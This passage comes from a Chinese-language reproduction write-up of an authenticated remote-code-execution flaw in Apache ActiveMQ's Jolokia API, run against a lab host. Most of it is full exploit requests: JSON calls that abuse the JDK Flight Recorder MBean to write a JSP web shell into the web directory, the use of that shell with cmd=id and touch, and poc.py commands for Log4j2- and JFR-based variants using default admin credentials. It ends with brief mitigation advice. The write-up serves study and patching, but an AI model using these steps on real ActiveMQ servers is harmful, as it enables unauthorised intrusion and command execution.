      <setting name=\"period\">endChunk</setting>
    </event>
    <event name=\"jdk.NetworkUtilization\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">5 s</setting>
    </event>
    <event name=\"jdk.InitialEnvironmentVariable\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.PhysicalMemory\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">everyChunk</setting>
    </event>
    <event name=\"jdk.ObjectAllocationInNewTLAB\">
      <setting name=\"enabled\" control=\"memory-profiling-enabled-medium\">false</setting>
      <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.ObjectAllocationOutsideTLAB\">
      <setting name=\"enabled\" control=\"memory-profiling-enabled-medium\">false</setting>
      <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.NativeLibrary\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">everyChunk</setting>
    </event>
    <event name=\"jdk.ModuleRequire\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">endChunk</setting>
    </event>
    <event name=\"jdk.ModuleExport\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">endChunk</setting>
    </event>
    <event name=\"jdk.FileForce\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\" control=\"file-io-threshold\">20 ms</setting>
    </event>
    <event name=\"jdk.FileRead\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\" control=\"file-io-threshold\">20 ms</setting>
    </event>
    <event name=\"jdk.FileWrite\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\" control=\"file-io-threshold\">20 ms</setting>
    </event>
    <event name=\"jdk.SocketRead\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\" control=\"socket-io-threshold\">20 ms</setting>
    </event>
    <event name=\"jdk.SocketWrite\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\" control=\"socket-io-threshold\">20 ms</setting>
    </event>
    <event name=\"jdk.SecurityPropertyModification\">
       <setting name=\"enabled\">false</setting>
       <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.TLSHandshake\">
      <setting name=\"enabled\">false</setting>
      <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.X509Validation\">
       <setting name=\"enabled\">false</setting>
       <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.X509Certificate\">
       <setting name=\"enabled\">false</setting>
       <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.JavaExceptionThrow\">
      <setting name=\"enabled\" control=\"enable-exceptions\">false</setting>
      <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.JavaErrorThrow\">
      <setting name=\"enabled\" control=\"enable-errors\">true</setting>
      <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.ExceptionStatistics\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">1000 ms</setting>
    </event>
    <event name=\"jdk.ActiveRecording\">
      <setting name=\"enabled\">true</setting>
    </event>
    <event name=\"jdk.ActiveSetting\">
      <setting name=\"enabled\">true</setting>
    </event>
    <event name=\"jdk.DataLoss\">
      <setting name=\"enabled\">true</setting>
    </event>
    <event name=\"jdk.DumpReason\">
      <setting name=\"enabled\">true</setting>
    </event>
    <event name=\"jdk.ZPageAllocation\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"threshold\">10 ms</setting>
    </event>
    <event name=\"jdk.ZThreadPhase\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.ZStatisticsCounter\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"threshold\">10 ms</setting>
    </event>
    <event name=\"jdk.ZStatisticsSampler\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"threshold\">10 ms</setting>
    </event>
    <control>
      <selection name=\"gc-level\" default=\"detailed\" label=\"Garbage Collector\">
        <option label=\"Off\" name=\"off\">off</option>
        <option label=\"Normal\" name=\"detailed\">normal</option>
        <option label=\"All\" name=\"all\">all</option>
      </selection>
      <condition name=\"gc-enabled-normal\" true=\"true\" false=\"false\">
        <or>
          <test name=\"gc-level\" operator=\"equal\" value=\"normal\"/>
          <test name=\"gc-level\" operator=\"equal\" value=\"all\"/>
        </or>
      </condition>
      <condition name=\"gc-enabled-all\" true=\"true\" false=\"false\">
        <test name=\"gc-level\" operator=\"equal\" value=\"all\"/>
      </condition>
      <selection name=\"memory-profiling\" default=\"off\" label=\"Memory Profiling\">
        <option label=\"Off\" name=\"off\">off</option>
        <option label=\"Object Allocation and Promotion\" name=\"medium\">medium</option>
        <option label=\"All, including Heap Statistics (May cause long full GCs)\" name=\"all\">all</option>
      </selection>
      <condition name=\"memory-profiling-enabled-medium\" true=\"true\" false=\"false\">
        <or>
          <test name=\"memory-profiling\" operator=\"equal\" value=\"medium\"/>
          <test name=\"memory-profiling\" operator=\"equal\" value=\"all\"/>
        </or>
      </condition>
      <condition name=\"memory-profiling-enabled-all\" true=\"true\" false=\"false\">
        <test name=\"memory-profiling\" operator=\"equal\" value=\"all\"/>
      </condition>
      <selection name=\"compiler-level\" default=\"normal\" label=\"Compiler\">
        <option label=\"Off\" name=\"off\">off</option>
        <option label=\"Normal\" name=\"normal\">normal</option>
        <option label=\"Detailed\" name=\"detailed\">detailed</option>
        <option label=\"All\" name=\"all\">all</option>
      </selection>
      <condition name=\"compiler-enabled\" true=\"false\" false=\"true\">
        <test name=\"compiler-level\" operator=\"equal\" value=\"off\"/>
      </condition>
      <condition name=\"compiler-enabled-failure\" true=\"true\" false=\"false\">
        <or>
          <test name=\"compiler-level\" operator=\"equal\" value=\"detailed\"/>
          <test name=\"compiler-level\" operator=\"equal\" value=\"all\"/>
        </or>
      </condition>
      <condition name=\"compiler-sweeper-threshold\" true=\"0 ms\" false=\"100 ms\">
        <test name=\"compiler-level\" operator=\"equal\" value=\"all\"/>
      </condition>
      <condition name=\"compiler-compilation-threshold\" true=\"1000 ms\">
        <test name=\"compiler-level\" operator=\"equal\" value=\"normal\"/>
      </condition>
      <condition name=\"compiler-compilation-threshold\" true=\"100 ms\">
        <test name=\"compiler-level\" operator=\"equal\" value=\"detailed\"/>
      </condition>
      <condition name=\"compiler-compilation-threshold\" true=\"0 ms\">
        <test name=\"compiler-level\" operator=\"equal\" value=\"all\"/>
      </condition>
      <condition name=\"compiler-phase-threshold\" true=\"60 s\">
        <test name=\"compiler-level\" operator=\"equal\" value=\"normal\"/>
      </condition>
      <condition name=\"compiler-phase-threshold\" true=\"10 s\">
        <test name=\"compiler-level\" operator=\"equal\" value=\"detailed\"/>
      </condition>
      <condition name=\"compiler-phase-threshold\" true=\"0 s\">
        <test name=\"compiler-level\" operator=\"equal\" value=\"all\"/>
      </condition>
      <selection name=\"method-sampling-interval\" default=\"normal\" label=\"Method Sampling\">
        <option label=\"Off\" name=\"off\">off</option>
        <option label=\"Normal\" name=\"normal\">normal</option>
        <option label=\"High\" name=\"high\">high</option>
        <option label=\"Ludicrous (High Overhead)\" name=\"ludicrous\">ludicrous</option>
      </selection>
      
      <condition name=\"method-sampling-java-interval\" true=\"999 d\">
        <test name=\"method-sampling-interval\" operator=\"equal\" value=\"off\"/>
      </condition>
      <condition name=\"method-sampling-java-interval\" true=\"20 ms\">
        <test name=\"method-sampling-interval\" operator=\"equal\" value=\"normal\"/>
      </condition>
      <condition name=\"method-sampling-java-interval\" true=\"10 ms\">
        <test name=\"method-sampling-interval\" operator=\"equal\" value=\"high\"/>
      </condition>
      <condition name=\"method-sampling-java-interval\" true=\"1 ms\">
        <test name=\"method-sampling-interval\" operator=\"equal\" value=\"ludicrous\"/>
      </condition>
      
      <condition name=\"method-sampling-native-interval\" true=\"999 d\">
        <test name=\"method-sampling-interval\" operator=\"equal\" value=\"off\"/>
      </condition>
      <condition name=\"method-sampling-native-interval\" true=\"20 ms\">
        <or>
          <test name=\"method-sampling-interval\" operator=\"equal\" value=\"normal\"/>
          <test name=\"method-sampling-interval\" operator=\"equal\" value=\"high\"/>
          <test name=\"method-sampling-interval\" operator=\"equal\" value=\"ludicrous\"/>
        </or>
      </condition>  
      <condition name=\"method-sampling-enabled\" true=\"false\" false=\"true\">
        <test name=\"method-sampling-interval\" operator=\"equal\" value=\"off\"/>
      </condition>
      <selection name=\"thread-dump-interval\" default=\"normal\" label=\"Thread Dump\">
        <option label=\"Off\" name=\"off\">999 d</option>
        <option label=\"At least Once\" name=\"normal\">everyChunk</option>
        <option label=\"Every 60 s\" name=\"everyMinute\">60 s</option>
        <option label=\"Every 10 s\" name=\"everyTenSecond\">10 s</option>
        <option label=\"Every 1 s\" name=\"everySecond\">1 s</option>
      </selection>
      <condition name=\"thread-dump-enabled\" true=\"false\" false=\"true\">
        <test name=\"thread-dump-interval\" operator=\"equal\" value=\"999 d\"/>
      </condition>
      <selection name=\"exception-level\" default=\"errors\" label=\"Exceptions\">
        <option label=\"Off\" name=\"off\">off</option>
        <option label=\"Errors Only\" name=\"errors\">errors</option>
        <option label=\"All Exceptions, including Errors\" name=\"all\">all</option>
      </selection>
      <condition name=\"enable-errors\" true=\"true\" false=\"false\">
        <or>
          <test name=\"exception-level\" operator=\"equal\" value=\"errors\"/>
          <test name=\"exception-level\" operator=\"equal\" value=\"all\"/>
        </or>
      </condition>
      <condition name=\"enable-exceptions\" true=\"true\" false=\"false\">
        <test name=\"exception-level\" operator=\"equal\" value=\"all\"/>
      </condition>
      <selection name=\"memory-leak-detection\" default=\"minimal\" label=\"Memory Leak Detection\">
        <option label=\"Off\" name=\"off\">off</option>
        <option label=\"Object Types\" name=\"minimal\">minimal</option>
        <option label=\"Object Types + Allocation Stack Traces\" name=\"medium\">medium</option>
        <option label=\"Object Types + Allocation Stack Traces + Path to GC Root\" name=\"full\">full</option>
      </selection>
      <condition name=\"memory-leak-detection-enabled\" true=\"false\" false=\"true\">
        <test name=\"memory-leak-detection\" operator=\"equal\" value=\"off\"/>
      </condition>
      <condition name=\"memory-leak-detection-stack-trace\" true=\"true\" false=\"false\">
        <or>
          <test name=\"memory-leak-detection\" operator=\"equal\" value=\"medium\"/>
          <test name=\"memory-leak-detection\" operator=\"equal\" value=\"full\"/>
        </or>
      </condition>
      <condition name=\"memory-leak-detection-cutoff\" true=\"1 h\" false=\"0 ns\">
        <test name=\"memory-leak-detection\" operator=\"equal\" value=\"full\"/>
      </condition>
      <text name=\"synchronization-threshold\" label=\"Synchronization Threshold\" contentType=\"timespan\" minimum=\"0 s\">20 ms</text>
      <text name=\"file-io-threshold\" label=\"File I/O Threshold\" contentType=\"timespan\" minimum=\"0 s\">20 ms</text>
      <text name=\"socket-io-threshold\" label=\"Socket I/O Threshold\" contentType=\"timespan\" minimum=\"0 s\">20 ms</text>
      <flag name=\"class-loading-enabled\" label=\"Class Loading\">false</flag>
    </control>
</configuration>"]}
```




开始录制

```
{"type":"exec","mbean":"jdk.management.jfr:type=FlightRecorder","operation":"startRecording","arguments":[1]}
```

POST请求，新填Content-Type头部

```
Content-Type:application/json
```

```
POST /api/jolokia/list HTTP/1.1
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Content-Type:applocation/json
Origin:192.168.1.15:8161
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 109

{"type":"exec","mbean":"jdk.management.jfr:type=FlightRecorder","operation":"startRecording","arguments":[1]}
```




结束录制

```
POST /api/jolokia/list HTTP/1.1
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Content-Type:applocation/json
Origin:192.168.1.15:8161
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 108

{"type":"exec","mbean":"jdk.management.jfr:type=FlightRecorder","operation":"stopRecording","arguments":[1]}
```


然后使用copyTo，导出到web目录

```
{"type":"exec","mbean":"jdk.management.jfr:type=FlightRecorder","operation":"copyTo","arguments":[1,
"./webapps/admin/ra1n3.jsp"
]}
```

```
POST /api/jolokia/list HTTP/1.1
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Content-Type:applocation/json
Origin:192.168.1.15:8161
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 133

{"type":"exec","mbean":"jdk.management.jfr:type=FlightRecorder","operation":"copyTo","arguments":[1,
"./webapps/admin/ra1n3.jsp"
]}
```



至此，jsp文件已经成功写入


进入容器中验证

```
docker ps
docker exec -it b7c84cdd86ab /bin/bash
cd admin
ls
```




访问/admin/ra1n3.jsp

尝试命令执行

```
http://192.168.1.15:8161/admin/ra1n3.jsp?cmd=id
```



成功


尝试创建文件

```
http://192.168.1.15:8161/admin/ra1n3.jsp?cmd=touch%20/tmp/success
```



成功


### 方法二

#### 通过org.apache.logging.log4j.core.jmx.LoggerContextAdminMbean

这是有Log4j2提供的一个MBean

攻击者使用这个Mbean中的setConfigText操作可以更高Log4j的配置，进而将日志文件写入任意目录


利用poc

```
python3 poc.py --username admin --password admin http://192.168.1.15:8161
```



访问admin/shell.jsp



成功

但是这种方法受到ActiveMQ版本限制，因为Log4j2是在5.17.0中才引入Apache ActiveMQ


#### 通过jdk.management.jfr.FilightRecorderMXBean

这种方式同上面手动发送数据包

FlightRecoder是在OpenJDK 11中引入的特性，被用于记录Java虚拟机的运行事件，利用这个功能，攻击者可以将事件日志写入任意文件

```
利用--exploit参数指定使用的方法
```

```
python poc.py -u admin -p admin --exploit jfr http://192.168.1.15:8161
```






## 防御措施

- 升级ActiveMQ版本：尽快将ActiveMQ升级到官方已经发布的安全补丁版本，修复该漏洞
- 修改默认口令：修改ActiveMQ后台管理界面的默认口令，避免使用弱口令
- 限制访问：若非业务需要，限制对Jolokia接口的访问，仅在必要时启用，并配置防火墙规则以限制对ActiveMQ服务器的访问